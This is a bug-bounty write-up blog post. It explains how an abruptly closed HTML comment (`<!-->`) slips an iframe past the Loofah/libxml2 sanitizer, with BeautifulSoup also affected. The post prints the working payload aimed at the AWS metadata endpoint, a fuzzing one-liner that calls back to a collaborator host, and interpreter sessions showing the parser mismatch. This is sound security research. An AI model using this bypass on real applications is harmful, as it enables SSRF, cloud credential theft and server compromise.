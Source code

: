 ```yaml
---
layout: post
title:  "Opinions are like Bugs - Every Spec has one."
date:   2023-07-24
categories: bugbounty
---
```


*When two specifications have differing opinions on how something should be parsed: here be dragons.*

This writeup is about a bug I first discovered over a year ago and have found a number of times since. There's nothing particularly novel about the vulnerability itself, but I think there's an interesting lesson in here about why it exists, and about where to look for other bugs that exist for the same reason. 

---

The first time I spotted this issue it was in a sanitizer library for ruby called [loofah](https://github.com/flavorjones/loofah). This is a tool commonly used in Ruby on Rails projects, and has shipped as a part of Rails core since v4.2. That finding let me escalate a strictly limited html injection to RCE. Below is what the html injection payload looked like, you may be able to guess how it worked.

```
<!--><iframe src=http://169.254.169.254/latest/meta-data></iframe>-->
```

The application I was testing allowed me to generate reports and export them as PDFs. After generating a sample and examining the metadata I knew what pdf generator was being used to accomplish this. A quick test of that tool proved that an SSRF should be possible if I could inject an iframe, as the generator would attempt to populate that iframe by loading it from the server. Injecting an image tag pointing to a burp collab resulted in a callback from an aws EC2 ip, so my plan was to try pulling IAM creds from the aws metadata instance. At first this failed. 

All of the inputs I could control were validated against a strict allowlist of safe html tags and attributes. Things like text formatting, images, and links were allowed but iframes were not.

I spent some time mapping out allowed tags and attributes, but the results didn't look very promising. After a lot of testing I had exhausted all obvious options, but I was so close I couldn't stop yet. One final possibility was still tickling my brain. 

I wasn't totally sure what was being used to scrub my input, and I wanted to thoroughly test the sanitizer before calling it complete. I knew it was a ruby on rails application, and that rails made Loofah available for sanitizing HTML input. I pulled open rails console and starting pushing on Loofah in every direction trying to find interesting behaviour. Of all the tags that were allowed by the application I was testing, the one that stood out the most was the HTML comment tag `<!-- -->`. I wondered if it might be possible to leverage a parsing differential such that loofah would see the iframe as being inside a comment, but the pdf generator would not. 

The test was fairly simple to implement. I generated a wordlist using the following oneliner, and generated a pdf report containing that wordlist. I expected most of them to be considered comments by the PDF generator, but if any of the iframes were rendered I should get a nudge on my burp collaborator. 

```
ruby -e "0.upto(65535) {|i| puts '<\!--' << i << '<iframe src=burpcollap/?id=' << i << '></iframe>-->'}"
...
<!--[<iframe src=burpcollab/?id=91></iframe>-->
<!--\<iframe src=burpcollab/?id=92></iframe>-->
<!--]<iframe src=burpcollab/?id=93></iframe>-->
<!--^<iframe src=burpcollab/?id=94></iframe>-->
<!--_<iframe src=burpcollab/?id=95></iframe>-->
...
```

To my surprise, I got a hit on `burpcollab/?id=62`, the codepoint for the greater-than character `>`. This allowed me to bypass the sanitizer, which meant I could inject an iframe, steal the AWS creds from the metadata instance, and escalate to RCE. I still wanted to understand what was happening to cause the two HTML parsers to behave differently. 

![image](https://media4.giphy.com/media/zrmTqopWm4W5cPg8Ah/giphy.gif?cid=ecf05e47y5ni6z9jd9m44cw1nvjr16cx3cpbw5zi8tmblrgl&ep=v1_gifs_search&rid=giphy.gif&ct=g)

# But why?

To investigate what was going on I pulled open my ruby interpreter to see what this input looked like from Loofah's perspective. I started by defining a loofah scrubber that would take an html fragment and remove any instances of the <iframe> tag.

```
irb(main):001:0> require 'loofah'
=> true
irb(main):002:1* iframe_scrubber = Loofah::Scrubber.new do |node|
irb(main):003:1*   node.remove if node.name == "iframe"
irb(main):004:0> end
```
I tested this on a normal iframe, and it behaved as expected:
```
irb(main):005:0> html = "<h1>iframe test</h1><iframe></iframe>"
irb(main):006:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1>"
```
Then I tested it with a normal comment:
```
irb(main):007:0> html = "<h1>iframe test</h1><!--<iframe></iframe>-->"
irb(main):008:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--<iframe></iframe>-->"
```
And finally, with the modified comment discovered by our fuzzer:
```
irb(main):009:0> html = "<h1>iframe test</h1><!--><iframe></iframe>-->"
irb(main):010:0> Loofah.fragment(html).scrub!(iframe_scrubber).to_s
=> "<h1>iframe test</h1><!--><iframe></iframe>-->"
```
As expected, Loofah see's the iframe tag in both of the the last two examples as being safely tucked inside a comment. However, when this exact same code is passed to the pdf generator, the iframe is rendered. This means that whatever is parsing the HTML in the pdf generator parses this in such a way that the iframe tag is not inside the comment. 

Even better, the html parsers in modern browsers agree with the pdf generator. Open a page with this html in chrome, firefox, edge, etc, and you'll see a rendered iframe:
```
<!--><iframe src=about:blank></iframe>-->
```

At first glance, this seemed like a bug in the html parser that Loofah is using, but after some investigation it turned out to be something much worse: Competing specs with different opinions. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/c57b60f0-9e28-496b-b6e5-00062a7daba1)

---

# Competing Specs

Loofah uses an html parsing framework called Nokogiri, which is built on libxml2. Libxml2 is a very popular xml (and html) parsing library that tries to be compliant with the [W3C html 5 specification](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html). The problem is that this library is very old, and pieces of it's parsing functionality are much older than the most recent version of the standard. 

The library's comment parsing functionality, for example, was [implemented in 2000](https://github.com/GNOME/libxml2/blame/75693281389aab047b424d46df944b35ab4a3263/HTMLparser.c#L3455). At that time, there wasn't any clear guidance in the standard around how to parse abruptly closed comments like the one in our attack payload. The way the libxml2 authors interpreted the specification resulted in the following steps:

- the tokenizer encounters the opening comment sequence `<!--` 
- Move the tokenizer forward until et encounters the closing comment sequence `-->` 
- treat everything inside as a comment. 

This means that, given our sequence `<!-->`, the `>` would be ignored and everything up to `-->` would be a comment. This explains why Loofah saw our iframe as being inside a comment. Libxml2 wasn't technically wrong, the authors were following the spec, just not the same spec that our pdf generator and modern browsers. 

Eventually, the rules changed and as of the first completed html5 spec published in 2008, the rules for parsing comments were as follows:

- We start in "tag open state," and we encounter an `!`, so we swtich to "markup declaration state"
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/910ae211-55c1-418c-bc4b-e451f3f550c1)


- If the next two characters are `--` we switch to `comment start state`
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/cf9df270-cfb4-4e7b-a16f-372f54112f52)


- And finally, if the very next character is `>`, we throw a parse error and switch back to "data state" instead of "comment state".
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/3772de46-3a2c-4d2f-97ea-c5abd2a36258)


Now, given the sequence `<!-->`, the comment is opened and then immediately closed. Everything following the `>` is outside the comments. This explains why the PDF generator, and modern browsers, render the iframe. 

---

This issue has been patched in the most recent version of libxml2, but I still find it frequently. Any HTML parsing framework that depends on an old version of libxml2, or was developed against an older version of the HTML5 spec is likely vulnerable to this bug. For example, beautiful soup is another parsing framework that follows the old rules for parsing comments: 

```
>>> import bs5
>>> soup = bs4.BeautifulSoup("<iframe></iframe>", "html.parser")
>>> soup.iframe
<iframe></iframe>
>>> soup = bs4.BeautifulSoup("<!-- <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>> soup = bs4.BeautifulSoup("<!--> <iframe></iframe> -->", "html.parser")
>>> soup.iframe
>>>
```
Note that the last two examples, the normal comment and the abruptly closed comment, are treated the same. This has been reported but no fix has been implemented as yet. 

---

# Lesson

The lesson I learned from this research is that when you're dealing with complex functionality that depends on a specification like an RFC, you should read it. These documents can be a slog but the more you read the better you'll become at parsing and understanding them. There are so many subtle details hidden away in standards that are just waiting to be stumbled on by the right hacker with the right mindset. Keep your eyes peeled for ambiguous language, major changes across versions, and situations where more than one standard exists and your input is being consumed by both of them at different times.
